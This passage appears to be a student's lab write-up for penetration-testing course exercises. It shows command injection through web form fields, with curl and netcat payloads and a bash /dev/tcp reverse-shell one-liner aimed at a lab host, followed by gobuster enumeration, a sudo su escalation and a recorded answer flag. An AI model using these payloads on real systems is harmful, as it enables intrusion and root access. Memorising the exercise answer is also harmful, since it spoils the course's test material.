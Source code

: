 - With that knowledge, craft a revshell
	- while 'nc \<ip> \<port>' works, it doesn't give you a full shell. So!
- Find out what shells and cmds are available
```bash
curl -X POST --data 'Archive=ls%20/bin/' http://192.168.193.16/archive
	...
	sh
	...

# Use -e nc flag for sh shell
curl -X POST --data 'Archive=nc 192.168.45.202 4444 -e /bin/sh'
```
![](9.4.2ex_nc_revshell.png)

> Answer:  OS{ef6161b7ecd7b43590c5ee171154c635}


# 3
3. **Capstone Exercise**: Start the _Future Factor Authentication_ application on VM #3. Identify the vulnerability, exploit it and obtain a reverse shell. Use **sudo su** in the reverse shell to obtain elevated privileges and find the flag located in the **/root/** directory.

HINTS
1. Visit VM #3's webserver which will contain three fields on the login page.
2. Experiment with different inputs such as && and discover the RCE.
3. Refer to Listing 17 from the Local File Inclusion learning unit for a Bash reverse shell example.


- Viewing submission behavior from main page, navigated to a 404 for the */archive* page.
- Decided to attempt a crawl which netted results
```bash
gobuster dir -u http://192.168.193.16 -w /usr/share/wordlists/dirb/common.txt
	...
	/console              (Status: 200) [Size: 1563]
	/login                (Status: 200) [Size: 841]
	...
```
![](9.4.3ex_console.png)

![](9.4.3ex_login.png)

- Console solely used GET & wasn't likely to be the injection point
- Filled out */login* page and viewed in Burp Repeater
- Notice the formatting of Request & Response
![](9.4.3ex_requestformat.png)
![](9.4.3ex_requestformat2.png)

- Couldn't get anything to work either through Burp or **curl**
- Attempted within the browser
- Use the bash reverse shell one-liner from LFI
- Add **"&&  "** around it
```bash
# Payload needed
"&&bash -c 'bash -i >& /dev/tcp/192.168.45.202/4444 0>&1'"
```
![](9.4.3ex_end.png)
```bash
# In nc listener tab
yelnats@1873a8a1bcd5:/app$ sudo su
	sudo su
ls /root/
	flag.txt
cat /root/flag.txt
```